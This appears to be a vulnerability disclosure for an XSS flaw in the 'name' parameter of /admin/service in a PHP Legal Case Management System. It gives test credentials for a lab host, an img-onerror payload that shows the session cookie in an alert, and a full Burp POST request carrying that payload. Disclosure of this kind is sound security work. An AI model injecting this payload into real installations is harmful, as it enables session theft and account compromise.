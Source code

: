 ## Legal Case Management System

## XSS on `/admin/service`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/service
```

The parameter `name` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/service HTTP/1.1
Host: 192.168.150.131
Content-Length: 406
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydsEg8p4ZfgibcAzq
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/service
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IlcrUnNqZkpLUDBaZUNCYkRPVUFQS3c9PSIsInZhbHVlIjoiUldtaHhndmp2MkJRenhPMnVWK2w5MHlpOFhWSlluNWhRbkVlOWtvZVlCVjNcLzg2aG83K2x3b2hRR3d0ck1lMVUiLCJtYWMiOiJiMWZlOTEyOWVkZDQ3NGY1ZGU0NTk0YTE1ZmRlYTUwNTAwMmI4NDBjNzMyNDdmYzFkNzA5Nzg3MTRlYjVkZjdkIn0%3D; test_session=eyJpdiI6ImxUYUhIVkp1dkNTaENCeXlVdEo2dWc9PSIsInZhbHVlIjoidk1hUTZnN0dValwvXC94Y2xJYVZhY1NzZFdUdmJOQUUxSkdPd1cxZXhhTEhYMWh3XC9VXC9TQWxjRHFtT1NFbTN6ejkiLCJtYWMiOiI5NGQ3NjJhM2Y3YTRhMWFjZWY3YTRjNjBlNzA0NTBiNzc5M2NhYTkwNzNiMzFjYmQ1NWJjMzAwMTQ4NDU4NjlmIn0%3D
Connection: close

------WebKitFormBoundarydsEg8p4ZfgibcAzq
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundarydsEg8p4ZfgibcAzq
Content-Disposition: form-data; name="name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundarydsEg8p4ZfgibcAzq
Content-Disposition: form-data; name="amount"

2
------WebKitFormBoundarydsEg8p4ZfgibcAzq--

```

### Screenshot

![image-20240509194650158](./screenshot/image-20240509194650158.png)
